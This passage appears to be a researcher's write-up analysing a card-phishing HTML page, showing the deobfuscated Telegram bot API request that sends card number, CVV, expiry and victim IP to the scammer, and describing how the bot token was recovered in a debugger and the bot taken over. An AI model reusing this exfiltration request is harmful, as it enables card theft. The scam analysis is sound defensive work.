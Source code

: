 **Then I deobfuscated it using https://deobfuscate.io/**

<img width="1338" height="835" alt="Screenshot 2025-08-22 010711" src="https://github.com/user-attachments/assets/6bb13361-dff3-4e9e-acbd-7af924405f5a" />

Now we have more readable code, which shows that the HTML sends a request to a Telegram bot once data is collected. The request would look like this:

```bash
POST https://api.telegram.org/bot<T0KEN>/sendMessage
Content-Type: application/json
cache-control: no-cache
{
  "chat_id": "<CHATID>",
  "text": "🍄🍄0UTL🍄🍄\n\nCARD-NUM: [CARD_NUMBER]\nNAME: [CARDHOLDER_NAME]\nEXPIRY: [MM]/[YY]\nCVV: [CVV]\n🌎IP: [VICTIM_IP]\n[CITY], [COUNTRY]"
```
Now we need to discover the values of `<CHATID>` and `<T0KEN>`. First, I downloaded `tlgram.js` and tried injecting code into the obfuscated script to log variable values.

<img width="1427" height="687" alt="Screenshot 2025-08-21 214015" src="https://github.com/user-attachments/assets/8db98171-1c56-4275-a2d6-1f297d643707" />

Initially, it didn’t work—apparently the cybercriminal anticipated this and split the values into multiple encrypted strings decoded gradually. Knowing this, I had an idea: if I purge the code line by line, I might catch the values of `<CHATID>` and `<T0KEN>` in Chrome DevTools global scope using a separate Node.js debug tab. I got to work—and it paid off.

First, I ran the encrypted script in a terminal with:

```bash
node --inspect-brk tlgram.js
```

<img width="947" height="87" alt="Screenshot 2025-08-21 214119" src="https://github.com/user-attachments/assets/10ae39ff-324f-466d-8e4c-e3492ee8607f" />

Then I placed a breakpoint where variables were defined, stepping into and over the code using DevTools. Eventually, I obtained both values in the Scope section of DevTools.

<img width="1919" height="924" alt="Diseño sin título (1)" src="https://github.com/user-attachments/assets/bacb345d-78c5-46a2-b984-c5667e7ca273" />

With those values, I was able to “take over” the Telegram bot using a Python tool called Matkap, which manipulates malicious Telegram bots and extracts conversations or disables them.

<img width="1919" height="863" alt="Screenshot 2025-08-22 001918" src="https://github.com/user-attachments/assets/7cbbd64a-78da-458e-aacb-b06c47528f9b" />

So I launched Matkap again.

<img width="1625" height="911" alt="Screenshot 2025-08-21 205934" src="https://github.com/user-attachments/assets/aa367a30-48ef-449e-a157-bf2c47213213" />

After running it with both values, I successfully took over the bot. I saw that it had over 100 messages from victims who had fallen for the scam. Later, for some reason, those messages disappeared, and I only saw the two fake ones I sent while pretending to be a victim. Still, the operation was a success because I got access to the bot.

<img width="1441" height="865" alt="Screenshot 2025-08-21 235651" src="https://github.com/user-attachments/assets/2e041792-3e7c-4a3a-b116-e8224e6093c6" />
